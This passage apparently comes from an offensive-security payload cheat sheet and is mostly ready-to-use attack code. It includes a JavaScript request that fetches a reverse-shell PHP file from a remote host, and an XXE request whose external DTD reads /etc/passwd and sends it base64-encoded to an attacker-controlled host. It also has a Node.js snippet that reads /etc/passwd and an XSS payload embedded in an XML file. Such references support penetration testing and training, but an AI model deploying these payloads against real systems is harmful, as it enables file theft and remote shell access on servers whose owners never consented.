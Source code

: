 ##### Simple Version

```c
req = new XMLHTTPRequest;
req.open('GET',"http://<RHOST>/revshell.php");
req.send();
```

#### Extensible Markup Language (XML) External Entity (XXE)

##### Request

```c
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY % <NAME> SYSTEM 
"http://<LHOST>/<FILE>.dtd">%<NAME>;]>
<root>
<method>GET</method>
<uri>/</uri>
<user>
<username><NAME>;</username>
<password><NAME></password>
</user>
</root>
```

##### Content of <FILE>.dtd

```c
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<LHOST>/?f=%file;'>">
%eval;
%exfiltrate;
```

### Cross-Site Scripting (XSS)

#### JavaScript (JS) to read Files on the System (.js)

```c
const fs = require('fs');

fs.readFile('/etc/passwd', 'utf8', (err, data) => {
  if (err) throw err;
  console.log(data);
});
```

#### Payload from Extensible Markup Language (XML) File

```c
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```
